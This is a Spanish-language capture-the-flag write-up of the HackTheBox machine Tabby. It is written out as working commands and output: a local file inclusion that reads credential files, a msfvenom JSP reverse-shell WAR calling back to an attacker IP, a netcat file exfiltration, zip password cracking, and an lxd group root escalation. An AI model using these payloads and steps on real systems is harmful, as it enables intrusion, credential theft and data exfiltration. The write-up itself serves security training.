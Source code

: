 ```yaml
---
title: HackTheBox - Tabby
categories: [Linux]
tags: [HackTheBox]
---
```


<img src="/assets/HTB/Tabby/tabby.png">

En este post voy a explicar como resolver la máquina Tabby de [Hack The Box](https://app.hackthebox.com/machines/259), en la cual vamos a estar tocando un LFI para obtener credenciales y así poder subir un archivo malicioso y para la escalada vamos a estar abusando de una vulnerabilidad del grupo ```lxd```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH), 80 (HTTP) y 8080(HTTP - Tomcat) abiertos.

## Enumeración
Al ingresar al servidor web que está corriendo en el puerto 80, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-80.png">

Al analizar la página web, vemos que el botón ```News``` nos redirige a ```megahosting.htb``` el cual agregamos a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.10.194    megahosting.htb" >> /etc/hosts
```

Regresamos nuevamente a la página y vemos que en la URL hay un parámetro llamado ```file```, el cual apunta al archivo ```statement```, posiblemente tenga una vulnerabilidad de ```LFI```.

```
$ curl -s http://megahosting.htb/news.php?file=../../../../etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Si leemos el archivo '''/etc/passwd''' de la máquina víctima, descubrimos el usuario '''ash'''.

Al ingresar al servidor web que está corriendo en el puerto ```8080```, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-8080.png">

Analizando la página, vemos que nos habla de un archivo llamado ```tomcat-users.xml```, si lo intentamos visualizar mediante el ```LFi```, no vamos a ver nada, ya que no se encuentra en esa ruta, pero si buscamos rutas alternativas en las cuales se encuentre ese archivo, encontraremos la siguiente ```/usr/share/tomcat9/etc/tomcat-users.xml```

```
$ curl -s http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml | tail -n 2

<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Si usamos las credenciales obtenidas para logearnos en la ruta ```/manager/html```, nos aparecerá lo siguiente.

<img src="/assets/HTB/Tabby/login-manager-html.png">

Probemos listar las aplicaciones existentes desde terminal haciendo uso de curl y las credenciales anteriormente obtenidas.

```
$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Como vemos, podemos listar las ```aplicaciones```, intentemos subir un archivo ```.war``` el cual se encargue de mandarnos una ```reverse shell``` a nuestro equipo, para crearlo vamos a hacer uso de msfvenom.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war -o reverse.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: reverse.war

$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war
OK - Deployed application at context path [/reverse]
```

## Reverse Shell

Para ganar acceso a la máquina, nos mandaremos la Reverse Shell haciendo una petición al archivo recién subido.

```
$ curl -X GET 'http://10.10.10.194:8080/reverse/'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49110
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]  + 4675 suspended  sudo nc -lvnp 443

$ stty raw -echo; fg
[1]  + 4675 continued  sudo nc -lvnp 443
                                        reset xterm

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 53 columns 235
```

##  Enumeración del sistema
Enumerando directorios, encontré un archivo comprimido y protegido por contraseña en la ruta ```/var/www/html/files```, el cual se llama ```16162020_backup.zip``` y le pertenece al usuario ```ash```, vamos a traerlo a nuestra máquina para intentar extraer la contraseña mediante un ataque de fuerza bruta haciendo uso de ```zip2john``` y ```john```.


```
$ tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc 10.10.14.9 6969
```

```
$ nc -lvnp 6969 > 16162020_backup.zip
listening on [any] 6969 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 50784
^C

$ ls
16162020_backup.zip  nmap  reverse.war
```

```
$ zip2john 16162020_backup.zip > hash &>/dev/null
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:00 DONE (2022-12-10 22:00) 1.315g/s 13635Kp/s 13635Kc/s 13635KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al descomprimir el archivo con la contraseña recién obtenida, veremos que no hay gran cosa, pero podemos probar si hay ```reutilización de contraseñas```.

```
tomcat@tabby:/var/www/html/files$ su ash
Password: admin@it
ash@tabby:/var/www/html/files$
```

Al poner el comando ```id```, veremos que estamos en el grupo ```lxd```.

```
ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
## Escalada de privilegios
Si buscamos con la herramienta searchsploit vulnerabilidades para el grupo ```lxd```, veremos que nos lanzara un script creado por S4vitar y Vowkin.

```
$ searchsploit lxd
------------------------------------------------------------------------------
Exploit Title                                          |  Path
------------------------------------------------------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation              | linux/local/46978.sh
------------------------------------------------------------------------------

$ searchsploit -m linux/local/46978.sh
Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable

$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ chmod +x build-alpine
$ ./build-alpine
$ python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
```

```
ash@tabby:/var/www/html/files$ cd /dev/shm
ash@tabby:/dev/shm$ curl -s http://10.10.14.9:6969/46978.sh -o lxd.sh
ash@tabby:/dev/shm$ curl http://10.10.14.9:6969/alpine-v3.17-x86_64-20221210_2249.tar.gz -o alpine.tar.gz
ash@tabby:/dev/shm$ chmod +x lxd.sh

ash@tabby:/dev/shm$ ./lxd.sh -f alpine-v3.17-x86_64-20221210_2249.tar.gz
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 761ea182e2d3 | no     | alpine v3.17 (20221210_22:49) | x86_64       | CONTAINER | 3.60MB | Dec 11, 2022 at 2:55am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # cd /mnt/root/root/
~ # cat root.txt
36b7b242c4b5a18da843964094ee37ad
```